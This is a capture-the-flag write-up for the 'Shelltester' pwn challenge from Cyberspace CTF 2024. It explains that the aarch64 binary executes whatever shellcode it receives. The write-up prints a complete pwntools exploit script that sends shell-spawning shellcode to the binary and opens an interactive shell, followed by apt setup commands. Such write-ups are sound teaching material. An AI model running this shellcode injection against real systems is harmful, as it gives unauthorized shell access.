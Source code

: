 # Shelltester

|              |                                                                                    |
| ------------ | ---------------------------------------------------------------------------------- |
| **CTF**      | [Cyberspace CTF](https://2024.csc.tf/) [(CTFtime)](https://ctftime.org/event/2428) |
| **Author**   | [0xM4hm0ud](https://github.com/0xM4hm0ud)                                          |
| **Category** | Pwn                                                                                |
| **Solves**   | 96                                                                                 |
| **Files**    | [handout_shelltester.zip](handout_shelltester.zip)                                 |

<img src="assets/description.png" width="400" >

# Solution

We receive a binary file. Let's check the type of binary and its protections:

<img src="assets/image.png" width="400" >

We can see that it's an aarch64 binary. NX is enabled, and the GOT has partial RELRO protection. <br/>
If we disassemble the binary, we see this:

<img src="assets/image2.png" width="500" >

We can see that it asks for shellcode and executes our shellcode. <br/>
We don't have a length restriction, so let's use Pwntools to create the shellcode:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = """
""".format(
    **locals()
)

exe = "./chal"
elf = context.binary = ELF(exe, checksec=False)
context.clear(arch="aarch64")
context.log_level = "critical"

io = start()

payload = asm(shellcraft.sh())
io.sendlineafter(b"place!\n", payload)

io.interactive()
```

For this to work, you need to have ARM support on your machine. <br/>
You can install this with:

```bash
$ sudo apt-get install software-properties-common
$ sudo apt-add-repository ppa:pwntools/binutils
$ sudo apt-get update
$ sudo apt-get install binutils-aarch64-linux-gnu
```

When running the script, we can obtain the flag:

<img src="assets/image3.png" width="500" >
